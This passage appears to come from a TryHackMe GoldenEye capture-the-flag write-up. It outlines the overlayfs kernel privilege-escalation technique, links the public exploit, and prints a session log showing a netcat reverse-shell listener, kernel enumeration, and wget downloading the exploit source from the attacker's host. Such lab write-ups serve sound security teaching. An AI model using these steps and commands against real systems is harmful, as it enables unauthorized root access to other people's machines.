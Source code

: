 2. Whats the kernel version?

``

3. This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

- Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
- Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
- Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
- Make su on overlayfs world writable without changing the owner
- Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
- Execute the modified su binary

You can download the exploit from here: https://www.exploit-db.com/exploits/37292

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.74.5] 35639
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ wget 10.8.106.222/37292.c
wget 10.8.106.222/37292.c
--2020-10-09 08:19:07--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... failed: Connection refused.
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ^[[A
wget 10.8.106.222/37292.c
--2020-10-09 08:19:27--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: '37292.c'

     0K ....                                                  100% 5.48M=0.001s

2020-10-09 08:19:27 (5.48 MB/s) - '37292.c' saved [5119/5119]

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ wget 10.8.106.222/37292.c
wget 10.8.106.222/37292.c
--2020-10-09 08:19:40--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: '37292.c.1'

     0K ....                                                  100% 7.50M=0.001s

2020-10-09 08:19:40 (7.50 MB/s) - '37292.c.1' saved [5119/5119]

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ls
ls
37292.c
37292.c.1
changelog.txt
classes
```